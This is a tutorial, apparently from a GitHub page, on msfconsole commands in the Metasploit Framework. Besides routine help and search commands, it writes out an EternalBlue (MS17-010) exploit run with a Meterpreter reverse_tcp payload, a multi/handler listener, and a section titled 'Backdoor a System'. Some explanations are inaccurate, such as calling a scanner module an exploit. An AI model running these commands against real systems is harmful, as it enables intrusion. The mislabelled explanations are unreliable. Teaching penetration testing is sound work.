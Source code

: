  `msfconsole` is a powerful and versatile tool within the Metasploit Framework, which is used for penetration testing and security auditing. It provides a comprehensive set of features to interact with various components of the framework, including modules, payloads, encoders, auxiliary programs, and more. Below are some commonly used features along with examples that demonstrate how to use them in Kali Linux terminal.

### 1. Help System
To get information on available commands and options:
```bash
help
# or for specific help
help <command>
```
Example:
```bash
help search
```
This will display the usage and syntax of the `search` command, which is used to find modules based on keywords.

### 2. Search Modules
To search for available exploit, payload, auxiliary, or post modules:
```bash
search <keyword>
```
Example:
```bash
search type=exploit linux
```
This will list all the Linux-related exploit modules.

### 3. Use a Module
To execute a module from the search results:
```bash
use <module_type>/<module_name>
```
Example:
```bash
use auxiliary/scanner/smb/smb_ms17_010
```
This command loads the MS17-010 SMB exploit.

### 4. Show Options
To display information and set options for the currently selected module:
```bash
show options
```
Example:
```bash
show options
```
This will show all configurable options for the loaded module.

### 5. Set an Option
To set a specific option value:
```bash
set <option_name> <value>
```
Example:
```bash
set RHOSTS 192.168.1.0/24
```
This sets the target IP range for scanning.

### 6. Show Info
To get detailed information about the module:
```bash
show info
```
Example:
```bash
show info
```
This provides details about the loaded module, including its description and usage examples.

### 7. Set Payload
To set a payload for an exploit:
```bash
set PAYLOAD <payload_name>
```
Example:
```bash
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```
This sets the payload to be used with the exploit.

### 8. Set LHOST and LPORT
To set the local host (IP address to listen on) and port for the payload listener:
```bash
set LHOST <local_ip>
set LPORT <local_port>
```
Example:
```bash
set LHOST 192.168.1.100
set LPORT 4444
```
This configures the payload to listen on `192.168.1.100` port `4444`.

### 9. Run the Module
To execute the module:
```bash
run
```
Example:
```bash
run
```
This starts the exploit with the currently set options and payloads.

### 10. Backdoor a System
To perform an exploit against a target system, including setting up a listener to catch the session:
```bash
exploit -j -z
```
Example:
```bash
exploit -j -z
```
This command initiates the exploit and tries to establish a reverse shell.

### 11. Use Multi/Handler
To set up a handler for capturing sessions:
```bash
use multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <local_ip>
set LPORT <local_port>
run -j
```
Example:
```bash
use multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
run -j
```
This sets up a handler to listen for incoming Meterpreter sessions.

### 12. Use Auxiliary Modules
To use auxiliary modules like scanning or information gathering:
```bash
use auxiliary/<module_name>
show options
set RHOSTS <target_ip>
run
```
Example:
```bash
use auxiliary/scanner/smb/smb_ms17_010
show options
set RHOSTS 192.168.1.1
run
```
This scans for vulnerabilities using the SMB MS17-010 scanner.

### 13. Use Payloads
To use payloads to execute commands on a target system:
```bash
use exploit/windows/smb/ms17_010_eternalblue
set PAYLOAD windows/x64/meterpreter/reverse_tcp
show options
run
```
Example:
```bash
use exploit/windows/smb/ms17_010_eternalblue
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
run
```
This exploits the MS17-010 vulnerability using a Meterpreter payload.

### 14. Save and Exit
To save the current session or workspace:
```bash
save
exit
```
Example:
```bash
save
exit
```
This saves the current state of `msfconsole` before exiting.

These commands provide a comprehensive way to interact with the Metasploit Framework, allowing you to perform various penetration testing tasks from the Kali Linux terminal.

